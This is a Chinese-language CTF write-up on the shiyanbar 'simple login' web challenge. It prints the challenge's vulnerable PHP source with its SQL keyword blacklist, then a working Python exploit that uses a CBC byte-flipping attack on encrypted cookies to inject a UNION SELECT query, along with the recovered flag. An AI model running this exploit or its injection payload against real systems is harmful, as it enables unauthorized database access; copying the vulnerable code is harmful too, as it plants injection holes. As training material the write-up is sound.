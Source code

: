 ```yaml
---
title: 实验吧-简单的登录题
date: 2018-02-09 14:41:00
tags: [WEB]
categories: CTF
copyright: true
---
```

# 前言
这是在[实验吧](http://www.shiyanbar.com/ctf/2037)上面的一道web题。主要考察cbc字节反转攻击。
# 分析
题目开始就是输入id去登录

![1](/images/20180726164134704.jpg)

首先想到的就是sql注入了，输入`1'`后页面显示`Hello`，重新载入的话页面返回报错信息

![2](/images/20180726164223922.jpg)

确实存在注入，看那后面的逗号，猜测注入点在`limit`后面。然后试了很多，发现题目把`union,#，procedure`等都过滤了，暂时没想到任何绕过的方法。然后抓包看看消息头看看有没有提示

![3](/images/20180726164308690.jpg)

提示存在`test.php`文件，访问后是php源码，接下来就是源码分析了
```php
<?php
define("SECRET_KEY", '***********');
define("METHOD", "aes-128-cbc");
error_reporting(0);
include('conn.php');
function sqliCheck($str){
	if(preg_match("/\\\|,|-|#|=|~|union|like|procedure/i",$str)){
		return 1;
	}
	return 0;
}
function get_random_iv(){
    $random_iv='';
    for($i=0;$i<16;$i++){
        $random_iv.=chr(rand(1,255));
    }
    return $random_iv;
}
function login($info){
	$iv = get_random_iv();
	$plain = serialize($info);
    $cipher = openssl_encrypt($plain, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv);
    setcookie("iv", base64_encode($iv));
    setcookie("cipher", base64_encode($cipher));
}
function show_homepage(){
	global $link;
    if(isset($_COOKIE['cipher']) && isset($_COOKIE['iv'])){
        $cipher = base64_decode($_COOKIE['cipher']);
        $iv = base64_decode($_COOKIE["iv"]);
        if($plain = openssl_decrypt($cipher, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv)){
            $info = unserialize($plain) or die("<p>base64_decode('".base64_encode($plain)."') can't unserialize</p>");
            $sql="select * from users limit ".$info['id'].",0";
            $result=mysqli_query($link,$sql);
            
            if(mysqli_num_rows($result)>0  or die(mysqli_error($link))){
            	$rows=mysqli_fetch_array($result);
				echo '<h1><center>Hello!'.$rows['username'].'</center></h1>';
			}
			else{
				echo '<h1><center>Hello!</center></h1>';
			}
        }else{
            die("ERROR!");
        }
    }
}
if(isset($_POST['id'])){
    $id = (string)$_POST['id'];
    if(sqliCheck($id))
		die("<h1 style='color:red'><center>sql inject detected!</center></h1>");
    $info = array('id'=>$id);
    login($info);
    echo '<h1><center>Hello!</center></h1>';
}else{
    if(isset($_COOKIE["iv"])&&isset($_COOKIE['cipher'])){
        show_homepage();
    }else{
        echo '<body class="login-body" style="margin:0 auto">
                <div id="wrapper" style="margin:0 auto;width:800px;">
                    <form name="login-form" class="login-form" action="" method="post">
                        <div class="header">
                        <h1>Login Form</h1>
                        <span>input id to login</span>
                        </div>
                        <div class="content">
                        <input name="id" type="text" class="input id" value="id" onfocus="this.value=\'\'" />
                        </div>
                        <div class="footer">
                        <p><input type="submit" name="submit" value="Login" class="button" /></p>
                        </div>
                    </form>
                </div>
            </body>';
    }
}
```
分析整个代码可以发现，通过post的id值由于被`sqliCheck`函数过滤了关键字无法在此处注入。另一处可注入的点在sql语句拼接的时候，在这里代码把解序列化后的数据直接拼接进sql语句中，如果可以控制此处的数据那么就可以造成注入。
那该如何控制这里的数据呢？可以发现，程序使用了`aes-128-cbc`的加密算法来加密和解密，而这种算法是存在字节反转攻击的，再配合程序在解序列化失败后返回解密后的明文，我们就可以控制密文来得到我们想要的任意明文，从而控制sql语句。对于`cbc字节反转攻击`的利用方法和原理网上有很多，抽时间自己也总结一下。下面是我的exp
```python
import requests,base64,urllib,math

def work():
    url = 'http://ctf5.shiyanbar.com/web/jiandan/index.php'
    payload = '0 union select 1,value,3 from you_want limit 1#'  
    #payload = 'x'*20
    
    plaintext = 'a:1:{s:2:"id";s:%d:"%s";}'%(len(payload),payload)
    badText = 'x'*16
    if len(plaintext)%16:
        if len(plaintext)%16>3:
            badText = 'x'*(len(plaintext)%16-3)+'";}'
        elif len(plaintext)%16 == 3:
            badText = '";}'
        elif len(plaintext)%16 == 1:
            badText = '}'
        else:
            badText = ';}'
    r = requests.post(url,data={'id':'x'*len(payload)})
    sc = r.headers['Set-Cookie'].split(',')
    
    iv = 'a'*16
    cipher = sc[1][sc[1].find('=')+1:]
    blockNum = len(cipher)/16
    cipher = base64.b64decode(urllib.unquote(cipher))
    blockNum = len(cipher)/16
    cipherBlock = [iv]
    cipherBlock += [cipher[16*i:16*(i+1)] for i in xrange(blockNum)]
    plainBlock = [plaintext[16*i:16*(i+1)] for i in xrange(blockNum)]
    
    for i in xrange(blockNum-1,-1,-1):
        s1 = plainBlock[i]
        s2 = cipherBlock[i]
        tmp = ''
        
        for j in xrange(len(s1)):
            tmp += chr(ord(s1[j])^ord(badText[j])^ord(s2[j]))

        cipherBlock[i]=tmp+s2[len(tmp):]
        if i == 0:
            iv = cipherBlock[0]

        iv_new = urllib.quote(base64.b64encode(iv))
        cipher_new = urllib.quote(base64.b64encode(''.join(cipherBlock[1:])))
        headers={'Cookie':'iv={};cipher={}'.format(iv_new,cipher_new)}

        r = requests.get(url,headers=headers)

        if i != 0: 
            tmp = r.text[r.text.find('decode')+8:r.text.rfind("')")]
            badText = base64.b64decode(tmp)[16*(i-1):16*i]
        else:
            print r.text.encode('gb18030')
        

work()
```
最后通过控制exp中的`payload`来注入sql语句，读取flag
```bash
C:\Users\gyh\Desktop>python 1.py
??????<h1><center>Hello!flag{c42b2b758a5a36228156d9d671c37f19}</center></h1>

C:\Users\gyh\Desktop>
```
# 总结
这道题主要考察`cbc字节反转攻击`，再结合本题在解序列化失败后返回解密的明文的特定的情况，可以控制整个明文字符串。但是当时没注意本题的这种特定情况导致我浪费了很多时间，看来细心很重要啊。